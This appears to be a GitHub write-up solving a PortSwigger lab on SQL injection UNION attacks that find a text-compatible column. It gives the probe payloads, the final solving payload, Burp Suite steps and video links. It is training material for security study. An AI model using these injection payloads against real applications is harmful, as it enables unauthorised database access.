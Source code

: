 # Lab: SQL injection UNION attack, finding a column containing text

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

![lab-sql-find-text-column.png](./lab-sql-injection-union-attack-finding-a-column-containing-text/lab-sql-find-text-column.png)

# Attack Payload

### Base Payload

```sql
'UNION SELECT NULL,NULL,NULL--
```

## Test First Column

```sql
'UNION SELECT 'z',NULL,NULL--
```

![screenshot00](./lab-sql-injection-union-attack-finding-a-column-containing-text/screenshot00.png)

## Test Second Column

```sql
'UNION SELECT NULL,'z',NULL--
```

![screenshot01](./lab-sql-injection-union-attack-finding-a-column-containing-text/screenshot01.png)

## Test Third Column

```sql
'UNION SELECT NULL,NULL,'z'--
```

![screenshot02](./lab-sql-injection-union-attack-finding-a-column-containing-text/screenshot02.png)

# Perform Attack

```sql
'UNION SELECT NULL,'Jzg8gb',NULL--
```

![lab-solved-sql-find-text-column.png](./lab-sql-injection-union-attack-finding-a-column-containing-text/lab-solved-sql-find-text-column.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). Verify that the query is returning three columns, using the following payload in the `category` parameter: `'+UNION+SELECT+NULL,NULL,NULL--`
3. Try replacing each null with the random value provided by the lab, for example: `'+UNION+SELECT+'abcdef',NULL,NULL--`
4. If an error occurs, move on to the next null and try that instead.

## Community Solutions

Rana Khalil

[SQL Injection - Lab #4 SQL injection UNION attack, finding a column containing text](https://youtu.be/SGBTC5D7DTs)

Michael Sommer

[SQL injection UNION attack, finding a column containing text (Video solution, Audio)](https://youtu.be/9Bpoq-heIOo)
